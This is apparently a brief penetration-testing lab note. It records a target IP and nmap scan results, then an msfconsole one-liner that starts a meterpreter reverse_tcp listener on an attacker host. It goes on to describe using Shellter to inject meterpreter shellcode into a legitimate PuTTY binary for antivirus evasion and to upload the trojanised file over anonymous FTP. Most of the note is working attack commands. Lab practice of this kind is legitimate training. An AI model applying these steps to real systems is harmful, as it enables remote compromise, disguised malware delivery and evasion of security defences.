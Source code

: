 # IP
```
192.168.247.53
```

# nmap
```
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

# meterpreter listener
```
$ msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.45.216;set LPORT 443;run;"
```

# Shellter
#shellter #av_evasion
1. download [putty.exe](https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe)
2. use shellter stealth mode to inject meterpreter tcp shell code
3. upload using ftp
```
ftp
open 192.168.247.53 21
anonymous
password_anything!
passive       <--- this will swithc between passive and active mode
binary
put putty.exe
```
